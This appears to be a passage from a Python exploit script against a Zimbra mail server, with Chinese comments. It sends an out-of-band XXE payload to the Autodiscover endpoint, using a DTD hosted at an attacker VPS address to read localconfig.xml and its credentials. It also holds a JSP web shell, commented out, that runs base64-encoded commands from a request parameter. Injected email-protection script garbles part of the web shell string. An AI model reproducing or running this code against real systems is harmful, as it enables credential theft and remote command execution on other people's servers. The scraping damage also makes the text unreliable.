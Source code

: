     #fileContent = r'<<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="75503505141210">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> import="java.io.*"%><<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="40650030212725">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> import="sun.misc.BASE64Decoder"%><%try {String cmd = request.getParameter("tom");String path=application.getRealPath(request.getRequestURI());String dir="weblogic";if(cmd.equals("NzU1Ng")){out.print("[S]"+dir+"[E]");}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String xxcmd = new String(binary);Process child = Runtime.getRuntime().exec(xxcmd);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) {e.printStackTrace();}} catch (IOException e) {System.err.println(e);}%>'
    #可使用第11行bypass
    print(base_url)
    #请自己在公网放置dtd文件
    dtd_url="http://VPS-IP/exp.dtd"
    """
    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
    """
    xxe_data = r"""<!DOCTYPE Autodiscover [
            <!ENTITY % dtd SYSTEM "{dtd}">
            %dtd;
            %all;
            ]>
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
            <EMailAddress>aaaaa</EMailAddress>
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
        </Request>
    </Autodiscover>""".format(dtd=dtd_url)

    #XXE stage
    headers = {
        "Content-Type":"application/xml"
    }
    print("[*] Get User Name/Password By XXE ")
    r = requests.post(base_url+"/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=15)
    #print r.text
    if 'response schema not available' not in r.text:
        print("don't have xxe")
        exit()
